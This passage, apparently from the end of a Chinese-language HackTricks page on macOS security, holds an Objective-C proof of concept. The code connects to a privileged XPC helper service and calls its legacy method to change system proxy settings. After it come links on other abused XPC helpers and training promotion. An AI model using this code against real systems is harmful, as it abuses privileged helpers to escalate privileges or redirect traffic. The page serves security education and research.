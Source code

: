 ```objectivec
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
[xpcConnection setRemoteObjectInterface:xpcInterface];
[xpcConnection resume];

// Handle errors for the XPC connection
id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
NSLog(@"[-] Connection error");
NSLog(@"[-] Error: %@", error);
}];

// Log the remote proxy and connection objects
NSLog(@"Remote Proxy: %@", remoteProxy);
NSLog(@"XPC Connection: %@", xpcConnection);

// Use the legacy method to configure the proxy
[remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
NSLog(@"Response: %@", error);
}];

// Allow some time for the operation to complete
[NSThread sleepForTimeInterval:10.0f];

NSLog(@"Finished!");
}
```
## 其他被滥用的 XPC 权限助手

* [https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm\_source=pocket\_shared](https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm\_source=pocket\_shared)

## 参考文献

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}
